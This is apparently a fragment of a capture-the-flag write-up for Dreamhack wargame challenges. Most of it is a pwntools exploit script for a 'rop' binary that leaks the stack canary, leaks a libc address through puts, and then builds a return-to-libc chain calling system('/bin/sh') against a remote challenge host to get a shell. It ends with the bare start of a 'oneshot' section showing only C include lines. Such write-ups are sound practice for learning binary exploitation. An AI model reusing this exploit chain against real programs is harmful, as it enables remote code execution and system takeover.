 ```python=
from pwn import *

context.binary = exe = ELF("./rop", checksec = False)
libc = ELF('libc.so.6', checksec = False)

#p = process(exe.path)
p = remote('host1.dreamhack.games', 17656)

pop_rdi = 0x0000000000400853
ret = 0x0000000000400596

payload = b'A'*57

p.sendafter(b'Buf: ',payload)
p.recvuntil(b'A'*57)
canary = u64(b'\x00' + p.recv(7)) 
log.info(hex(canary))

payload = flat(
	b'A'*56,
	canary,
	b'A'*8,
	pop_rdi, exe.got['puts'],
	exe.plt['puts'],
	exe.sym['_start']
)

input()
p.sendafter(b'Buf: ',payload)

libc_leak = u64(p.recv(6) + b'\x00\x00')
libc.address = libc_leak - libc.sym['puts']
log.info(hex(libc_leak))
log.info(hex(libc.address))

payload = b'A'*56

p.sendafter(b'Buf: ',payload)

payload =  flat(
	b'A'*56,
	canary,
	b'A'*8,
	pop_rdi, next(libc.search(b'/bin/sh')),
	ret,
	libc.sym['system'],
)

p.sendafter(b'Buf: ',payload)

p.interactive()
```
# [oneshot](https://dreamhack.io/wargame/challenges/34)
## Source code
```c 
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

```